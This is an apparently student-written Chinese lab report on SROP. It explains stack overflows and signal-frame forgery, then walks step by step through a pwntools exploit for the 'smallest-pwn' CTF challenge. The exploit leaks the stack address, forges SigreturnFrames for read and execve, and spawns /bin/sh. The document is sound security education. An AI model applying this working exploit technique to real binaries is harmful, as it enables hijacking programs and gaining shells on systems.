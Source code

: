 # SROP报告

---

### 1. 软件漏洞原理
#### 1.1 缓冲区溢出漏洞
程序在运行前会预留一些用于临时存储I/O数据的内存空间，像这样的内存空间被称为缓冲区。如果计算机向缓冲区内填充了超过缓冲区本身容量的数据，将会导致合法数据被覆盖，此时发生缓冲区溢出。一般而言，为了确保程序的安全性，需要在程序进行复制、赋值等操作时检查数据的长度，保证其输入不超过缓冲区的最大长度，但有时某些程序没有做到这一点，就可能会留下缓冲区溢出攻击的漏洞。

图灵机的实现方式有冯·诺依曼机和lambda演算机，如今绝大多数运行程序的终端都属于前者，这种机器的特点是将机器底层信息分为数据和指令两种，但这两种信息都存储在同一区域，机器对此不作区分。这种情况下，人类看来的数据如果非法占据了指令位置，计算机将会执行非法数据表征的指令。

缓冲区溢出可分为栈溢出和堆溢出两种，本实验进行的是栈溢出攻击。

#### 1.2 栈溢出原理
栈是一种基本的数据结构，从这个层次理解，它是一种先进后出的线性表，即所谓的“FILO”原则。程序运行时，栈中会保存函数需要的重要信息，并在函数执行结束后自动释放，这个过程由编译器自动完成。

当程序运行时，先将返回地址压栈，再压入ebp地址，随后开始读取变量。由于运行过程中栈是向低地址方向生长的，而变量在栈中向高地址方向生长，因此当栈中变量超出缓冲区大小时，可能会覆盖栈中高地址区的返回地址，导致函数返回时产生错误。

---

### 2. SROP原理
#### 2.1 软中断信号
SROP全称为Sigreturn Oriented Programming，其中的sigreturn是一个系统调用，当linux系统发生软中断时会调用它。（图示直接来源为ctf-wiki）
![image](image/1.png)

当程序发起一次signal时，系统将会进行以下工作：
>1. 将该进程暂时挂起，进入内核态；
>2. 内核保留该进程上下文，跳转到之前注册好的signal handle中处理signal；
>3. Signal handle执行结束，返回内核态；
>4. 内核为程序返回之前保留的上下文，恢复进程的执行。

#### 2.2 原理及利用方法
内核为进程保留相应的上下文的方法主要是：将所有寄存器压入栈中，以及压入 signal 信息，以及指向sigreturn的系统调用地址，此时从栈底到栈顶信息依次为stack→ucontext→siginfo→→sigreturn。当signal handler执行完成后，系统就会执行sigreturn系统调用来恢复上下文，主要是将之前压入的寄存器的内容还原回对应的寄存器，然后恢复进程的执行。

将ucontext和siginfo这两段合称为Signal Frame，事实上，系统并不会记录某个signal信号对应的Sinal Frame。当系统执行sigreturn系统调用时，此时的Signal Frame可以不是此前内核为进程保存的Signal Frame。由于Signal Frame被保存在用户地址空间中，攻击者可以伪造Signal Frame，达到劫持控制流的目的。

---

### 3. 实验
#### 3.1 实验环境
>+ 题目：360春秋杯smallest-pwn
>+ 虚拟机：VMware Workstation Pro
>+ 操作系统：Kali-linux-2023.3-amd64
>+ 编程语言：python 2.7.18
>+ 工具：IDA pro、gdb-peda、pwntools

由于本实验使用python2版本，可以切换成kali自带的python2来执行。
![image](image/2.png)

#### 3.2 实验过程
##### 3.2.1 检查保护
使用checksec命令检查目标程序保护，可以发现程序主要开启了NX保护。NX即No-eXecute（不可执行）防护，其基本原理是将数据所在内存页标识为不可执行，ROP攻击是一种常用的绕过NX保护的方法，考虑对目标程序实行ROP攻击。
![image](image/3.png)

##### 3.2.2 程序反编译
在IDA pro中打开目标程序，可以看到程序是用asm语言写成的，代码很短，符合程序名称“smallest”。
![image](image/4.png)

可以看到，源asm语言首先对rax处理器进行异或操作，得到操作数为0，查表可知，该操作数为read读操作。

| 系统调用 | 调用号	| 函数原型 |
| :----: | :----: | :----: |
| read | 0 | read(int fd, void *buf, size_t count) |
| write	| 1	| write(int fd, const void *buf, size_t count) |
| sigreturn | 15 | int sigreturn(...) |
| execve | 59 | execve(const char *filename, char *const argv[],char *const envp[]) |

程序随后将三个数据分别读入三个寄存器之中，接着进行syscall系统调用，也就是读操作。所以整个程序就是向栈顶读入0x400字节的内容。

##### 3.2.3 构造exp程序
首先，发送start_addr的地址，因为是写在栈顶的，所以就是read的返回地址，程序会返回到start_addr。
``````python
start_addr = 0x00000000004000B0
payload = p64(start_addr) * 3
sh.send(payload)
``````

返回后再次调用read函数的时候发送一个字节，由于read函数会把读入的字节数放到rax，所以rax等于1，同时会把rsp的后一位写为\xB3,这样返回地址就是异或rax的下一行操作4000B3，不会执行将rax置为0的操作，rax保持为1，查表可知为write操作。
``````python
sh.send('\xb3')
``````

调用write函数，输出栈上0x400长度的内容，由于此前输入了3个start_addr，因此取前八个字节之后的内容，这就是泄露出来的栈的地址。
``````python
stack_addr = u64(sh.recv()[8:16])
``````

使用pwntools中的工具构造，相当于read(0,stack_addr,0x400),同时返回地址为start_addr。
``````python
read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret
``````

发送start_addr和syscall_ret，以及上文构造的SigreturnFrame。
``````python
read_frame_payload  = p64(start_addr) + p64(syscall_ret) + str(read)
``````

调用read函数，等待接收。
``````python
sh.send(read_frame_payload)
``````

为了防止影响程序，发送payload中截取的15个字节数据，read操作会使得rax置为15，查表可知对应为sigreturn操作。
``````python
sh.send(read_frame_payload[8:8+15])
``````

构造，返回等待输入。
``````python
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x120
execve.rsi = 0x0
execve.rdx = 0x0
execve.rsp = stack_addr
execve.rip = syscall_ret
execv_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
``````

添加‘\x00’后达到120长度，添加‘/bin/sh’。
``````python
execv_frame_payload_all=execv_frame_payload+(0x120-len(execv_frame_payload ))*'\x00'+'/bin/sh\x00'
``````

``````python
sh.send(execv_frame_payload_all)
sh.send(execv_frame_payload_all[8:8+15])
sh.interactive()
``````

---

### 4. 其他

目前做的几个ROP的实验，目的都是通过各种方法使得系统执行攻击者想要其执行的程序段，比如前几个实验的使缓冲区数据溢出到执行代码段。本次实验作为所谓的高级ROP，原理与前几个实验相似，只是用到了一个更底层的sigreturn机制，这是由Signal Frame储存在用户地址空间和系统不对其内容进行检查造成的，最终目的还是把系统执行导向到恶意输入的代码段之中。
